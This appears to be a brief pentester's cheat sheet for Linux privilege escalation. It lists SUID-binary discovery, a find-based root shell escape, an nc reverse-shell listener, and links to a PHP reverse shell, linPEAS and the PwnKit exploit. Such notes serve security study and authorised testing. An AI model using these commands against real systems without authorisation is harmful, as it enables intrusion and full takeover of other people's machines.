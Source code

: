 # Privilege Escalation

## https://gtfobins.github.io/

## SUID executables
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null

find xxx -exec whoami \;

find . -exec /bin/sh -p \; -quit


## Reverse Shell

https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

sudo nc -lvnp 443

## LinPeas
https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

## PwnKit
https://github.com/ly4k/PwnKit
